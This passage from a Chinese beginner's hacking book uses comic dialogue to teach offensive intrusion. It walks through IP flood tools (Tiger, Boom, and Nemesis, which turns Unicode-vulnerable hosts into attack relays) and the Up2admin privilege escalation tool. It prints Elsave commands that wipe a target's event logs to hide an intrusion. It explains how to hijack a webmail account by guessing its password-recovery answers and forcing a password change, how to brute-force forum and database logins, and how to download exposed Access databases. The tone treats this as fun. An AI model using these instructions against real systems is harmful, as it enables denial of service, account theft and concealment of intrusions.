在图 1-2-46 左边对话框中的用户名上双击就可以连接主机了，如图 1-2-47 所示。当然，有些主机设置了密码，你要直接连接上去是不可能的（你可以尝试破解这个密码）。这时，你可以试试别的机子是否可以连接。连接上以后你想干嘛就干嘛了。


1-2-47 连接主机

> 阿瓜：“累死我了！介绍了这么多，大家对扫描器了解了吧！多试试就知道它的好处了。”

> 榕哥：“对，你看阿瓜，试了一个月就弄明白流光怎么用了。大家要向他学习啊！”

阿瓜：“嘿嘿，我笨，可是我好学。嘿嘿……”

> **阿瓜悟道：** 扫描利器，所向披靡。任你铜墙铁壁，我有扫描器在手，招一出手，让你体会到无微不至的“关怀”。你所有的优点、缺点尽为我所知。你的生命也操纵在我的手中……

# 第二章 重拳出击——攻击程序的威力


实际上阿瓜并不喜欢攻击程序，因为阿瓜觉得这些东西太暴力了。在现在的黑客工具分类中，攻击程序一般是指各种“炸弹”，像 IP 炸弹。这些工具的使用能造成对方主机失去活动能力，一般只有两个目的：一是“把你弄下线我就爽了”；二是可以让对方主机失去防卫能力，从而可以方便入侵。阿瓜不太喜欢这样干。但是榕哥说过，战场无情，要想取得胜利，就要敢于出手，不能婆婆妈妈，慈悲心肠。非常时刻，非常手段！

阿瓜虽然聆听教诲，但是，不到万不得已，阿瓜从来不用这些工具。榕哥心知肚明，常暗叹：“此子可教也！”

现在流行的攻击程序不仅有威力无比的炸弹、火炮，还包括另一类程序——入侵辅助类的程序。这类程序包括权限提升、日志清除等功能。这些程序实际上是用来进行扫描完毕后的后续工作的，也就是获得主机权限、破坏系统、擦除入侵痕迹等。

## 2.1 炸弹与火炮

“炸弹扔出去后，一定不要留在现场，要躲远一点，不然自己也会被炸到的。”阿瓜苦思多年终于悟出了这条道理。榕哥听了阿瓜的这句话后目瞪口呆，心跳停止 10 秒钟后点点头补充道：“火炮打出去，可以远远地观察攻击结果，不用跑到战场上去看。”

阿瓜总结：“那就是说，不管是炸弹还是炮弹，只要发出去，我们就什么也不用管了？”

榕哥：“正确。”

现在流行的炸弹与火炮有蓝雪攻击者、Tiger、Boom、Nemesis、GhastMail 等。

### 2.1.1 蓝雪攻击者

对于炸弹工具的使用界面来说，远没有扫描器的复杂。炸弹好用不好用，要看的不是功能的多少，而是炸弹威力的强大与否。蓝雪攻击者的使用界面就很简单，如图 2-1-1 所示。


2-1-1 蓝雪攻击者

怎么样，界面简单吧！阿瓜虽然不喜欢用炸弹程序，但是这样简单的界面正是他的最爱。所以，阿瓜看到这个软件时精神又来了。

这个软件需要设置四个部分。第一部分是最上面的“地址”栏，在这里填上你要攻击的 IP 地址。（注：根据阿瓜的使用经验，这里填上自己的 IP 地址是不好的）；第二部分是发送的弹药（信息包）的数量，数值大则威力强；第三部分是投放弹药的持续时间，数值越大威力越强。第四部分是重复发送的次数，当然是次数多，效果好。根据要攻击目标机器的稳定性，设定足够大的参数。然后，轻轻按下“开始”按钮，这时弹药就发出去了。不过，小心有后坐力啊！

> **阿瓜小注：** 经实验得知，金山网镖（防火墙）可以防住此软件的攻击。

### 2.1.2 Tiger

“Tiger”的中文意思是“老虎”。这个软件虽然用了英文的名字，但是它实际上是一个国产货。它利用 IGMP 协议攻击目标计算机，轻则使对方无法登录网络，重则导致系统崩溃。软件的使用界面如图 2-1-2 所示。


2-1-2 Tiger2.0 的使用界面

这个软件的使用也很简单。先填上目标 IP 地址。然后调节攻击力度，攻击力度选择“3”来对付一般拨号上网的用户已经绰绰有余了。线程设置可以根据你的电脑所在的网络情况设置，如果网速快可以设大一点，否则，就设小点。

设置完毕后，点“攻击”，攻击程序开始运行，又一台主机遭殃了。

> **阿瓜小注：** 此软件威力奇大，对方主机即使开了防火墙，在遭受攻击时，运行速度也会急剧下降，甚至死机。

### 2.1.3 Boom

这又是一个 IP 炸弹，下面是这个软件的使用界面，如图 2-1-3 所示。


2-1-3 Boom 使用界面

可以看到，与前面两个软件不同的是，这个软件允许选择目标端口，也就是可以选择攻击目标主机的特定端口。另外，这个软件提供了三种攻击方式：UDP、ICMP、IGMP。

> **阿瓜小注：** UDP、ICMP、IGMP 分别是三种网络数据通信协议，实际上就是不同的数据传输标准。

在设置发送次数时，如果要连续攻击，可以把发送次数设置为“0”。此软件还提供了后台运行模式，按“Alt+A”组合键可以切换使用模式。

阿瓜的经验是：“这个炸弹的威力不是很大，不能穿透防火墙，不过对于一般的用户还是有一定威胁的。”

### 2.1.4 Nemesis

Nemesis 的中文意思是复仇女神，听名字就让人觉得血腥味很重。嘿嘿，所以阿瓜又想睡觉了。榕哥拿起一面铜锣，捂住耳朵，一阵乱敲。阿瓜听到锣声惊得差点摔在地上。榕哥拍拍阿瓜的头：“还困吗，阿瓜？”阿瓜摇摇头：“不困了。”停了停，阿瓜大叫：“可是你也没有必要这么大张锣鼓啊！看下次你睡觉的时候我会怎么做，哼！”

这个攻击武器的功能比之前面的要复杂一些，使用界面也复杂一点。这个小工具属于攻击和扫描类型，扫描 Unicode 漏洞主机，速度很快，利用漏洞主机向目标发起洪水般的攻击。软件界面如图 2-1-4 所示。

> **阿瓜小注：** 此软件做了限制，不能攻击国内的 163.com、china.com 等大型网站。


2-1-4 Nemesis 使用界面

在进行攻击之前首先要设定目标主机和攻击主机。目标主机是要接受攻击的主机。攻击主机是发送攻击的主机。这是 Nemesis 与前面提到的炸弹工具不同的地方。Nemesis 可以利用其它有 Unicode 漏洞的主机做攻击主机，可以想象，如果有数十台攻击主机同时轰炸一个目标主机，那个目标主机还有命吗？

首先添加目标主机。方法是在“管理”菜单中选择“添加目标”，如图 2-1-5 所示。


2-1-5 添加目标主机

或者在目标主机上点右键，在弹出的右键菜单上选“添加目标”，如图 2-1-6 所示。


2-1-6 添加目标主机

如上操作后，弹出“添加目标主机”对话框，如图 2-1-7 所示。


2-1-7 填写要攻击的目标

填上要攻击的目标主机名后，OK。就可以看到结果了，如图 2-1-8 所示。


2-1-8 设置完毕的结果

右面一栏中显示的是默认的攻击参数。这些参数可以更改。但是这之前要先设定攻击主机才行。打开“管理”→“添加攻击主机组”，如图 2-1-9 所示。


2-1-9 添加攻击主机

有两种添加主机的方式。第一种是“添加自由主机组”。在文本框里填上组名，随便填上喜欢的名字就行，如图 2-1-10 所示。


2-1-10 添加自由主机组

添加完成后点击“OK”，如图 2-1-11 所示。


2-1-11 添加了攻击主机组

添加了主机组后可以在组内添加攻击主机。方法是在组名上点右键，在弹出的菜单中选择“添加攻击主机”，如图 2-1-12 所示。


2-1-12 添加攻击主机

在弹出的对话框中填上攻击主机的域名或地址，如图 2-1-13 所示。


2-1-13 填写主机名

填好后，点击 OK。然后在刚才添加的攻击主机上点击右键菜单，选择“开始检查攻击主机”，如图 2-1-14 所示。

# 第二章 重拳出击——攻击程序的威力


### 2-1-14 检查主机有效性

如果主机不可用，会有结果显示，就在该主机项的右键菜单中选择“删除攻击主机”。如图 2-1-15 所示。


2-1-15 主机不可用时的结果

然后重复上面的步骤添加新的主机，直到找到可用的主机为止。当然，更好的方法是直接“添加范围主机组”，如图 2-1-16 所示。


2-1-16 主机范围设定

在上面的对话框中填写“开始地址”和“结束地址”。然后点击 Ok，如图 2-1-17 所示。


2-1-17 设定结果

在添加的主机范围条目上点选右键的“开始扫描主机组”，如图 2-1-18 所示。


2-1-18 扫描过程

当扫描到可用主机后，就可以开始攻击了，如图 2-1-19 所示。


2-1-19 开始攻击

> 阿瓜闲言：这个软件的扫描速度很快，据说扫描 60000 台主机不超过 30 分钟。

如上图，启动攻击设置会弹出参数设置窗口，如图 2-1-20 所示。


2-1-20 攻击参数设置

攻击设置包括三个选项：攻击次数、数据包大小、数据包分片选择。设置完毕后，攻击程序开始运行。结果大家自己想象吧！反正是很严重的。

> 阿瓜：“这么厉害的东西真是可怕！不过，现在 Unicode 漏洞已经广为人知。一般的网管都会知道弥补这个漏洞的，所以现在要找到这样的漏洞主机也需要一点耐心。”

## 2.2 最佳助手

这里要说的是在通过扫描获得漏洞主机的信息，并且利用漏洞得到一定的使用权限后的事。这时，我们虽然获得了一定的权限，但是可能还没有得到管理员级别的权限，不过我们可以利用一些工具来提升自己的权限。

### 2.2.1 Up2admin

Up2admin 是个命令行工具，非常小巧，只有 4K 大小。首先，以普通用户身份登录到目标主机上，并且把这个软件下载到可执行目录下。然后在命令提示符窗口输入“Up2admin”，则可以看到它的信息，如图 2-2-1 所示。


2-2-1 Up2admin

这个软件的使用方法很简单。例如，我们当前使用的普通用户的用户名是“lisi”，我们要提升这个用户的使用权限，只需在上图的窗口中输入“Up2admin lisi”，然后回车即可。

> 阿瓜小注：怎么样，简单吧！是不是简单得有点过分？这个软件是有使用限制的。如果你有写注册表权限但无 net localgroup administrators xxx /add 权限时，这个软件就无用武之地了。

### 2.2.2 Elsave

阿瓜：“我们在入侵主机时，扫描主机、添加／修改用户名、增删文件等各种操作都会留下记录。如果这些记录被留下来了，管理员一查就知道是谁干的，那可就不好玩了。”

榕哥：“要是用 Elsave 情况就不同了，Elsave 是事件擦除器的意思。你看用了 Elsave 的就可以逍遥自在、无忧无虑，要是没用 Elsave 的就得提心吊胆地过日子了。”

阿瓜：“所以啊！用了 Elsave，嗨，还真对得起咱这电脑！”

Elsave 也是一种命令行工具。例如对方主机地址为 192.168.0.1（只是假设），那么我们的操作如下：

```text
D:\DownLoad>net use \\192.168.0.1\ipc$ /user:administrator
The command completed successfully.

D:\DownLoad>elsave -s \\192.168.0.1 -l "application" -C
D:\DownLoad>elsave -s \\192.168.0.1 -l "system" -C
D:\DownLoad>elsave -s \\192.168.0.1 -l "security" -C
```

其中的“user”要输入你所有的管理员账号。上面第一行命令是连接服务器。最后三行的命令是分别删除“应用程序”、“系统”、“安全”三类日志。

> 榕哥感言：别看这个软件的使用界面没有那么直观，但是功能是大大的强！

榕哥：“其实现在攻击类的软件很多，但是大类就是上边说的这些。另外还有一些软件都是随用随编，过期作废的，因为针对个别漏洞的攻击工具一旦流行，马上就会有相应的补丁程序出台，进而弥补漏洞。所以如果对攻击工具感兴趣，还要多多关注漏洞动态。”

> 阿水悟道：不战则罢，若战必争；重拳出击，有死无生！

# 第三章 洞若观火——密码破解工具的智慧


榕哥曾说过：“密码破解工具是黑客智慧的结晶。人们研究出加密的方法来保证信息的安全，而安全同样是黑客们感兴趣的，所以，黑客同志们研究出了破解密码的工具。我们要研究黑客工具，密码破解工具是必修的课程。”阿瓜却没有想那么多，阿瓜只知道用可爱的扫描器扫描主机漏洞没有结果时，就只好靠猜解用户密码来寻求突破。

其实，密码破解包含的内容很多。除了上面阿瓜提到的那种情况外，还有如下几种情况会用到密码破解工具：

- 当我们想通过电子邮件了解邮件用户的信息时，我们可以通过邮箱破解工具来破解密码；
- 当我们想要阅读加密文件的内容时，我们可以使用密文破解工具来破解加密文件；
- 当我们想使用有口令认证的软件时，我们可以破解口令从而获得使用权限。当我们……

下面就来介绍上面所说的这几类密码破解工具。

## 3.1 在线破解工具

在线破解工具是对需要上网才能运行的一类密码破解工具的统称，这类破解工具包括 IPC 密码破解和各类网络服务密码破解（包括 WEB 密码破解、FTP 密码破解等）。

> **编者注：其实这部分我们在《傻瓜黑客》第一卷中有所介绍。我们这里只讨论那本书上未曾提过的部分。**

阿瓜：“说到远程破解，我又想起了‘流光’，这个东西实在是太棒了。它不但是很好的扫描器，同时也是很好的密码破解工具。在我成长的日子里它陪我度过了多少美好的时光啊！”

榕哥嘿嘿一笑：“这个软件当然好啊！在线破解用户密码的工作基本上用它就够了。”阿瓜想了想说：“不如让我们再回忆一下流光破解密码的方法吧。”阿瓜说完闭上眼睛，陷入回忆之中。

### 3.1.1 用流光在线破解密码

我们看看如何用最新版本的流光 4.7 在线破解密码。流光提供了 POP3、IMAP、FTP、HTTP、PROXY、FORM、MSSQL、SMTP、IPC$ 等八种网络服务在线密码破解功能。但是这八种的密码破解步骤是一样的。一通而八通，所以，我们就以其中的 IPC$ 密码的破解为例，简单介绍一下。

> 阿瓜小注：注意，IPC$ 主机必须为 WIN NT 或 WIN 2000/XP 主机，其它类型主机不具备此功能。

流光的使用界面大家很熟悉了。我们直接看如何使用流光破解 IPC$ 密码，如图 3-1-1 所示。

首先，如上图中的“IPC$ 主机”项目前打上对勾。然后点选右键菜单的“编辑”→“添加”，弹出“添加主机”对话框，如图 3-1-2 所示。


3-1-1 用流光破解密码


3-1-2 添加主机

在对话框中填上目标主机的 IP 地址或域名，然后点“确定”。


3-1-3 添加用户

添加主机后要添加用户名。这里有两个选择：一是可以直接添加用户，但是这种情况只能添加一个用户；二是可以从列表文件添加，这种情况可以添加多个用户，完成后如图 3-1-3 所示。

在上图所示的右键菜单中选“添加……”，则弹出添加单个用户的窗口，如图 3-1-4 所示。


3-1-4 添加单个用户

输入用户名，确定。就添加了一个用户。若在图 3-1-3 中选择“从列表添加……”，则弹出如下对话框，如图 3-1-5 所示。


3-1-5 添加用户列表

选择一个用户名列表文件，然后点“打开”。就完成用户名的添加了，如图 3-1-6 所示。


3-1-6 添加用户列表结果

除了上面这两种方式外，还可以直接添加方案。所谓方案就是指包含指定的用户和指定字典的文件。

在图 3-1-3 的右键菜单中选择“从方案添加……”就可以添加方案文件。方案文件可以用流光的附带工具“黑客字典”编辑。

添加用户名后要添加破解密码所需的密码字典。


3-1-7 设置解密字典

如图 3-1-7 所示，在“解码字典或方案”项目上点选右键菜单的“编辑”→“添加”，弹出“打开”对话框，然后选择你编辑好的密码字典，如图 3-1-8 所示。


3-1-8 选择密码文件

点击“打开”，设置全部完成，如图 3-1-9 所示。


3-1-9 设定结果

回到主界面，点击主菜单中的“探测”按钮，在下拉菜单中选择“标准模式探测”，如图 3-1-10 所示。


3-1-10 开始探测

好了，去喝杯茶，等着看结果吧！

### 3.1.2 用湖雪破解密码

提到湖雪，阿瓜也感到特别亲切。因为湖雪是流光的弟兄，他们的作者是同一个人。湖雪是用来破解基于 WEB 表单密码的。首先打开程序，如图 3-1-11 所示。


3-1-11 湖雪的使用界面

湖雪的密码探测功能包括：

- 对免费信箱密码的探测，主要通过猜测生日的方法，成功率可达 60%～70%（对于一些免费邮箱的密码探测，建议采用流光。它的准确性更好，速度也更快。）
- 对各种社区、BBS、聊天室等密码的探测。（可以暴力猜测管理员密码。）

首先看第一个功能的使用方法。

假如我们要破解亿邮的邮箱（www.eyou.com），先在湖雪的地址栏中输入地址，如图 3-1-12 所示。


回车后，在湖雪的浏览器内出现登录界面，如图 3-1-13 所示。


选择“忘记密码”，进入找回密码页面，如图 3-1-14 所示。


在上图所示输入框中输入要破解密码的用户名。假设我们要破解的用户名为“test_hack”。点“确定”进入下一个页面，如图 3-1-15 所示。


按下“CTRL+I”组合键，弹出表单列表，如图 3-1-16 所示。


3-1-16 表单列表

表单里面列出了页面所包含的元素，这些元素就是提交到 WEB 服务器验证密码的信息。通过设置这些元素，可以猜解出正确的密码。

其中“answer”对应页面中的“答案”项，这里需要猜测一下，如果猜对了，密码基本上就可以破解了。双击表单中的“answer”，弹出如下图对话框。问题是“谁最漂亮”，当然是猜“我”啦！如图 3-1-17 所示。


3-1-17 填写表单项

> 何凡小注：千万注意，是填写在表单中，不是直接填写在页面中。

然后双击“year”条目，弹出对话框，如图 3-1-18 所示。


3-1-18 填写表单项

在这里可以填写“生日年份（year）”，如果不能确定，则选择“使用字典”，点击“浏览”按钮，弹出对话框，如图 3-1-19 所示。


3-1-19 确定年份文件

可以选择不同的年龄段。

> 阿瓜小注：由于表单中给出的年龄格式是 19?? 的格式，所以填写的年份应该是“7?”、“8?”的形式，不能填“1972”、“1982”等格式。

按如上方法把月份（month）、日期（date）等项填好。

下面的 PASS 和 PASS 2 两个元素可以随便填，但是两个要一致，这是你要改成的新密码。

已全部设置完成，如图 3-1-20 所示。


3-1-20 完成表单

然后，在菜单中选择开始探测，如图 3-1-21 所示。


3-1-21 开始探测

弹出“保存扫描结果”对话框，如图 3-1-22 所示。


3-1-22 保存扫描设置

选中“只探测一次”，然后一路点击“确定”。扫描后会有结果显示，如图 3-1-23 所示。

| Action of Current URL | History of Current URL |
|---|---|
| `http://www.eyou.co...` | `uid=test_hackdisk=3&answer=我爱eyaer1979&month=12&day=20&pass=123456&pass2=123456` |
| `http://www.eyou.co...` | `uid=test_hackdisk=3&answer=我爱eyaer1979&month=12&day=20&pass=123456&pass2=123456` |

3-1-23 探测结果

探测结果有两个，其中一个是误报，可以实验一下，只要双击测试结果即可。测试结果表明，第一个的结果是正确的，如图 3-1-24 所示。


3-1-24 密码更改成功

好了，现在可以查看信件了。不过很快用户就会发现，因为他们的密码已经不对了。

> 阿灰小注：这个方法破解邮箱密码的关键之处是对提示问题的回答要正确，否则无论如何也破解不了密码；另外，如果是别的邮件服务器可能根本就不允许你修改密码，这时就可以得到邮件密码而用户却发现不了。嘿嘿，那可就爽了。

下面再看朔雪破解功能之二。

对各种社区、BBS、聊天室等密码的探测，其实方法是一样的。下面以社区密码的破解为例，介绍一下方法。

首先进入登录页面，按下“CTRL+I”组合键，调出界面，如图 3-1-25 所示。


3-1-25 论坛破解

按上面所述方法填上“username”和“password”的内容，如图 3-1-26 所示。


3-1-26 设置探测项目

这里的用户名用的是列表，密码是一个“123456”，使用普通撒网的方法。在主菜单中点击“运行”按钮，选择下拉菜单中“开始／重新开始”选项，如图 3-1-27 所示。


3-1-27 开始探测

弹出“保存扫描结果”对话框，如图 3-1-28 所示。


3-1-28 保存扫描结果设置

直接点“确定”，弹出“选择标记”对话框，如图 3-1-29 所示。


3-1-29 选择标记

选择“选项”按钮，弹出“扫描选项”对话框，选择对话框中的“302 HTTP 头重新定向敏感”、“HTTP 头列表改变敏感”和“HTTP 头信息敏感”三项，然后一直点“确定”，如图 3-1-30 所示。


3-1-30 设置扫描选项

> 阿风小注：注意哦，不是所有的破解对象都是这样设置，要根据实际情况设置。详情可参阅娜娜的帮助文件。

等着看结果吧。最后会出现“结果列表”，如图 3-1-31 所示。

| Action of current URL | History of current URL |
|---|---|
| http://asp.724.com/... | username=become&password=123456&submit=... |
| http://asp.724.com/... | username=bedroom&password=123456&submit=... |
| http://asp.724.com/... | username=bell&password=123456&submit=... |
| http://asp.724.com/... | username=below&password=123456&submit=... |
| http://asp.724.com/... | username=beside&password=123456&submit=... |
| http://asp.724.com/... | username=because&password=123456&submit=... |
| http://asp.724.com/... | username=bee&password=123456&submit=... |
| http://asp.724.com/... | username=before&password=123456&submit=... |
| http://asp.724.com/... | username=begin&password=123456&submit=... |
| http://asp.724.com/... | username=beginning&password=123456&submit=... |
| http://asp.724.com/... | username=behind&password=123456&submit=... |
| http://asp.724.com/... | username=around&password=123456&submit=... |
| http://asp.724.com/... | username=animal&password=123456&submit=... |
| http://asp.724.com/... | username=bad&password=123456&submit=... |
| http://asp.724.com/... | username=also&password=123456&submit=... |
| http://asp.724.com/... | username=arm&password=123456&submit=... |
| http://asp.724.com/... | username=any&password=123456&submit=... |
| http://asp.724.com/... | username=anybody&password=123456&submit=... |

3-1-31 结果列表

由于采用了 HTTP Head Sensitive 方法，出现了很多结果，我们对结果排序，发现其中一项和其他项不一样，按“测试”按钮证明这一个是正确的。

在一般情况下使用 HTTP Head Sensitive 会返回很多不需要的结果，所以，是否启用这一功能需要看实际情况而定。

> 榕哥点拨：并不是所有的探测都能成功，这与“密码字典”的选择有关。如果没有成功，可以考虑换个字典。

阿瓜：“真麻烦！”

榕哥拍拍阿瓜的头，说：“学习黑客知识一定要有耐心，看来你的功力还是不够，还要多多修行啊！”

### 3.1.3 ShadowDatabaseScanner

针对数据库的 Shadow 系列扫描和密码探测软件，可以对 MSSQL、Oracle、IBM DB2、MySQL、MiniSql、Postgress、Lotus Domino 进行密码探测。

#### 一、漏洞破解的方法

打开软件，界面如图 3-1-32 所示。


3-1-32 ShadowDatabaseScanner

点击主界面左侧的“Scanner”图标，弹出“New Session”窗口，如图 3-1-33 所示。


3-1-33 向导一

在这里可以添加新的扫描方案。点击左边的“Add Policy”按钮，弹出“Create New Policy”对话框，如图 3-1-34 所示。


3-1-34 创建方案步骤一

在这里选择创建新扫描方案的基础方案，最初只提供一个方案“Complete Scan”，所以就选择此方案，点“Next”按钮，进入下一步，如图 3-1-35 所示。


3-1-35 创建方案步骤二

在上图中填上方案名称，点击“Done”按钮。弹出如图 3-1-36 所示对话框。


3-1-36 POLICIES

这是一些属性设置。“Smart Scan”是按端口列表的内容扫描服务器。端口范围在“Ports”项内，点击“Ports”，如图 3-1-37 所示。


3-1-37 PORTS

在这里选定端口，也就是确定要破解的数据库。确定后，别忘了点击“OK”按钮。下面再看“Audits”，点击“Audits”，如图 3-1-38 所示。


3-1-38 Audits

这是各种数据库的漏洞列表，选择想要使用的数据库类型和漏洞类型。点“Apply”应用所选设置。然后选择“Socks”，弹出如图 3-1-39 所示对话框。


3-1-39 SOCKS

这是 SOCKS 名字的选择，默认为“none”，就是没有的意思。最后选择“Database”按钮，如图 3-1-40 所示。


3-1-40 Database

在这里确定要探测的各类型数据库的名称和数据库名。全部选择完毕后，点“OK”，进入下一界面，如图 3-1-41 所示。


3-1-41 回到向导一

此时可供选择的方案已经有两个了。选择刚刚创建的“mypolicy”方案，点“Next”按钮，进入下一步，如图 3-1-42 所示。


3-1-42 向导二

在对话框内填写注释。点击“Next”，进入下一步，如图 3-1-43 所示。


3-1-43 向导三

在这个窗口内可以添加主机或主机列表。首先选择“Add Host”，在对话框中填写主机名称或 IP 地址，点击“Add”按钮即可添加，如图 3-1-44 所示。


3-1-44 添加主机

在图 3-1-43 中点击“Add IP Zone”，在对话框填写好 IP 范围，点“Add”即可添加，如图 3-1-45 所示。


3-1-45 添加 IP 范围

若选择“Load from File”则从文件中添加，不再赘述。完成后，点“Done”，即可进入如下界面。选择“Scan ALL”开始扫描全部列表内主机，如图 3-1-46 所示。


3-1-46 开始扫描

#### 二、暴力破解的方法

在主界面左侧点击“Password Checks”按钮，弹出向导对话框，如图 3-1-47 所示。


3-1-47 向导1

在上图所示界面中选择要破解的数据库的类型，在右边框内填写主机地址和端口号，一般默认即可。填好后，点“Next”，如图 3-1-48 所示。


3-1-48 向导2

拖动上面的滑块可以调整线程。若选中“Auto Suspend if failed connect to port”则不能连接到端口时会自动挂起。点“Next”，如图 3-1-49 所示。


3-1-49 向导3

在此窗口内设置用户名和密码文件。有三种方式：

- Logins and passwords files —— 选择用户名文件和密码文件
- Login and passwords files —— 指定用户名，选择密码文件
- Logins and passwords in one file —— 用户名和密码在同一文件内

点“Next”，如图 3-1-50 所示。


点击对话框中的“Start”按钮即可进行暴力破解。

## 3.2 文件和软件密码破解

当我们获得密文后，需要解密才能看到想看的信息。另外，对于需要口令认证的信息需要解密才能使用。这两部分就是本节将要介绍的内容。

> 编者注：这部分内容我们已经在《傻瓜黑客》第一卷中有所介绍，所以这里从简。

### 3.2.1 Zip Password Cracker

这个软件是用来破解 ZIP 压缩文件的。当你下载了好东西，可是却需要解压缩密码时，这个软件就大有用武之地了，使用界面如图 3-2-1 所示。


要破解压缩文件，首先要设置解密密码。这个软件提供了两类设置方法。一种是对密码的情况一点也不知道的类型；另一种是知道部分密码的类型。

第一种是暴力破解的方法。首先，选择主界面中的第一个按钮，在对话框中选择你要破解的密码类型。密码可以包括图 3-2-2 中所示的各种字符。一般人只用小写字母和数字做密码，所以可以只选这两部分（可以分别选择，分别测试）。如果不行再选别的。


阿瓜：“根据我多年的经验，暴力破解方法的成功需要的是耐心和运气！”

选择完密码包含字符后，可以设定密码长度。一般设为 5~8 位就可以了，如图 3-2-3 所示。


按下“Generate Passwords”按钮，开始生成密码，如图 3-2-4 所示。


接下来选择要破解的文件，如图 3-2-5 所示。


3-2-5 选择要破解的加密文件

如上图操作，在目录里选择要破解的加密 ZIP 文件。按下“Start Zip Testing”按钮开始破解，如图 3-2-6 所示。


3-2-6 开始破解

如果是在已知部分密码的情况下，可在主界面中点击“Password is Partly Known”按钮。按图 3-2-7 所示的内容选择合适的选项，然后选择要解密的文件。开始破解就可以了。有没有结果就要看你设置字典的好坏了。这是个技术性比较强的工作。

> “解密过程不就是锻炼耐心的过程吗？有什么了不起的！”

另外，阿瓜还说过一句话：“解密过程不就是锻炼耐心的过程吗？有什么了不起的！”可见，如果没有耐心，要想得到密码可不容易。


3-2-7 第二种类型

## 3.2.2 ACCESS 解密

现在很多网站都是用 IIS+ASP+ACCESS 的方案。如果我们可以知道 ACCESS 数据库的存放位置，我们就可以把它下载下来。例如，用 FrontPage 编辑的网站默认的数据库存放位置都在 http://www.targetweb.com/fpdb 目录下。我们如果猜测出数据库的名称，直接在浏览器内输入 http://www.targetweb.com/fpdb/accessname.mdb 就可以把 ACCESS 数据库文件下载下来。如果数据库没有设置口令，我们就可以直接享受里面重要的信息了。如果数据库设置了登录密码，我们就需要使用解密软件来解密了。

这就是我要介绍 ACCESS 解密的意义了。这个软件的使用界面很简单，我这里用的是试用版，如图 3-2-8 所示。

首先点击“打开”按钮。在弹出的对话框中选择好你要解密的文件，如图 3-2-9 所示。


3-2-8 ACCESS2000 解密

3-2-9 选择要解密的文件

然后点击“解密”按钮，在“密码”框中会出现解密结果，如图 3-2-10 所示。


3-2-10 解密结果

榕哥：“其实密码破解软件还有很多类型，比如说 QQ 密码破解、网吧管理软件的破解，但是这类软件更新较快，我们就不再讨论了——阿瓜！又睡觉！唉！这孩子，我一讲点有用的东西他就睡觉，真没办法！”

> 阿瓜悟道：密码就是给人来破的，要是没有人破解密码了，加密也就没有意义了。但是解密的目的就是要普天之下了无密码。如果没有加密，解密又有何意义呢？

# 第四章 至尊宝典——解密字典的秘密


阿瓜最近看武侠小说看得入了魔，甚至看到《新华字典》都会想“里面说不定藏着什么武功秘籍”。所以，阿瓜听到榕哥谈论“解密字典”时，头脑里立刻闪现出“葵花宝典”、“归元秘籍”、“九阴真经”等武功秘籍的样子，眼睛直放绿光，吓得榕哥以为他得了“狂狼病”。

其实，解密字典和密码破解工具就像枪与弹药的关系，谁也离不开谁。第三章介绍了枪的威力，现在我们来看弹药的秘密。

对于密码来说，可以有各种组成方式。有的是纯数字，有的是纯字母，有的包括特殊字符，有的是各种字符的组合。

但是，使用密码的人，出于记忆方便考虑，一般都会用有一定意义的密码，或者是生日，或者是姓名，或者是某个单词，或者是在这些基础上的变体，例如，名字双写、生日翻转等。

字典工具的功能就是按照这些规律来生成相应的字典，在字典中，如果包括要破解的密码，那么使用这个字典就能“查出”这个密码了。

## 4.1 常规字典

这类密码工具功能强大，可以制作包含各种情况的密码，就像名门大派的武功，博大精深，但是掌握起来需要较多的时间。起步较难，进步较慢，可是，一旦练成，就会威力无穷。

### 4.1.1 黑客字典Ⅱ

首先，阿瓜给大家推荐一款小榕设计的《黑客字典Ⅱ》。先来看看它的启动界面，如图 4-1-1 所示。


4-1-1 黑客字典Ⅱ

这个字典工具提供了两种运行方式：

- 以向导方式运行
- 以普通方式运行

初次使用可以选第一种方式，使用熟练后选第二种方式。

先看第一种方式。

在图 4-1-1 主界面中选择“以向导方式运行”，按下“确定”，出现如图 4-1-2 所示对话框。


4-1-2 以向导方式运行

在这里要做一些选择。要制作什么样的字典呢？是纯数字的还是纯字母的，又或者是两者都有呢？例如我们要制作包括 4 个字母（a、b、c、d）和四个数字（1、2、3、4）的字典。我们进行如图 4-1-3 一样的设置。


4-1-3 设置选项

这样设置的结果就会产生从 AAAA1111 到 DDDD4444 的所有组合。

图 4-1-3 下面的“符号（0x20~0x2E）”复选框是指在 ASCII 码表中的字符。如果选中，则字母组合为所选的字母范围加上符号（对应于 ASCII 码中的 33~47）。

设置完该界面，点“下一步”继续进行。


4-1-4 选择特殊格式

图 4-1-4 各选项的含义如下：

- 1. 字母采用大写形式。  
  对应于前面的设置，产生的字典范围：AAAA1111~DDDD4444。
- 2. 仅仅首字母大写。  
  对应于前面的设置，产生的字典范围：Aaaa1111~Dddd4444。
- 3. 数字在字母前。  
  对应于前面的设定，产生的字典范围：1111aaaa~4444zzzz。
- 4. 仅仅使用 LF 间隔。  
  一般的解密软件所使用的字典要求每个单词间用 LF 和 CR 作为间隔，但是也有要求只用 LF 做间隔的，如：CrackZip。
- 5. 仅仅使用辅音字母。  
  在研究了大量密码之后，阿瓜发现有很大一部分密码都是以用户自己名称的拼音缩写加数字而来，而一般拼音缩写的字母绝大多数是辅音字母，所以这里可以针对性地设置这个选项。

选择完毕后，看下一步。


4-1-5 选择文件存放位置

在图 4-1-5 中选择文件存放位置后，再下一步。


4-1-6 高级选项设置

在高级选项中，可以自由地定制单词的形式，如图 4-1-6 所示。

- 1. 使用高级选项生成字典。

如果使用这种方式来产生字典，就可以对字典的每一位进行定制。例如可以定制第一位是字母，第二位为数字，第三位为字母，第四位为符号……等。这些字母或数字的范围取决于在“基本”中的设定。如果没有设定，则默认字母从 a~z，数字从 0~9。

- 2. 定制每一个位置字符的范围。

如果上述的要求还不能满足的话，那么就只有采用这个功能了。如果采用了这个功能，那么前面的所有选项都统统失效，使用的方法是这样：

首先在 C:\ 的根目录下建立一个文本文件（纯文本），名字为 CustBanyet.def。

在这个文件中输入单词中每一位的范围（每一行代表一位，超过 8 行后则自动舍弃，每行字符数不大于 40）。如：

```text
abcdefghijklmnopqrstuvwxyz
23456
/!@#$%
ABC
```

如果文件像上面一样，则产生的字典中每一个单词的第一位的范围就是第一行的字符串的范围（abcdefghijklmnopqrstuvwxyz），第二行的范围就是第二行的字符串……以此类推。

> 注意：在 C:\CustBanyet.def 文件没有建立之前，该选项是无效的。


设置完成后，按“开始”按钮，字典生成成功，如图 4-1-7 所示。

第二种方式其实还是设置这些东西，只不过界面不同罢了。第二种方式的界面如图 4-1-8 所示。

这个字典工具最适合制作姓名缩写加数字格式的密码字典了。


4-1-8 普通方式

下面看另一个比较强大的字典。

### 4.1.2 字典专家

这又是一个功能强大的字典。它的使用界面如图 4-1-9 所示。


4-1-9 字典专家

